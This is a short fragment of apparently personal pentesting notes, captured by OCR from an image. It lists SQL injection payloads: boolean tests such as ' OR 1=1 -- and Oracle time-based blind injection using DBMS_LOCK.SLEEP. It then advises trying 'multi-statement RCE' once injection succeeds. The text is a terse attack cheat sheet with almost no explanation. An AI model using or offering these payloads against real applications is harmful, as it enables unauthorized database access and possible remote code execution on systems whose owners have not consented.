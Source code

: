 ```
#####
# O #
#####
' OR 1=1 --//   -- True condition
' OR 1=2 --//  -- False condition

' OR 1=CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(5) ELSE 0 END --//   -- True - delay
' OR 1=CASE WHEN (1=2) THEN DBMS_LOCK.SLEEP(5) ELSE 0 END --//   -- False - no delay
```
## If success try the multi-statement RCE first (then others if it fails etc etc)

# *resources*
```
saved sql tabs
```